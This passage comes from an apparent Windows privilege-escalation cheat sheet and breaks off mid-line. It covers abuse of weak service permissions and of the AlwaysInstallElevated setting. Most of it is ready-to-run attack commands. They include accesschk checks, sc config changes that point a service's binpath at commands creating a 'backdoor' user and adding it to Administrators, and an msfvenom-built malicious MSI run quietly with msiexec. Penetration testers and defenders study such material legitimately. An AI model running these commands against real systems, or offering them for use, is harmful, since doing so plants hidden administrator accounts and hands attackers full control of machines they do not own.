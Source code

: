https://technet.microsoft.com/en-us/sysinternals/bb842062.aspx

For Windows XP, version 5.2 of accesschk is needed:

https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe

accesschk.exe -uwcqv &quot;Authenticated Users&quot; \* /accepteula

accesschk.exe -qdws &quot;Authenticated Users&quot; C:\Windows\ /accepteula

accesschk.exe -qdws Users C:\Windows\

Then query the service using Windows sc:

sc qc \&lt;vulnerable service name\&gt;

Then change the binpath to execute your own commands (restart of the service will most likely be needed):

sc config \&lt;vuln-service\&gt; binpath= &quot;net user backdoor backdoor123 /add&quot;

sc stop \&lt;vuln-service\&gt;

sc start \&lt;vuln-service\&gt;

sc config \&lt;vuln-service\&gt; binpath= &quot;net localgroup Administrators backdoor /add&quot;

sc stop \&lt;vuln-service\&gt;

sc start \&lt;vuln-service\&gt;

Note - Might need to use the  **depend**  attribute explicitly:

sc stop \&lt;vuln-service\&gt;

sc config \&lt;vuln-service\&gt; binPath= &quot;c:\inetpub\wwwroot\runmsf.exe&quot; depend= &quot;&quot; start= demand obj= &quot;.\LocalSystem&quot; password= &quot;&quot;

sc start \&lt;vuln-service\&gt;

Metasploit module:

exploit/windows/local/service\_permissions

## **AlwaysInstallElevated**

**AlwaysInstallElevated**  is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.
Check if these 2 registry values are set to &quot;1&quot;:

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

If they are, create your own malicious msi:

msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi

Then use msiexec on victim to execute your msi:

msiexec /quiet /qn /i C:\evil.msi

Metasploit module:
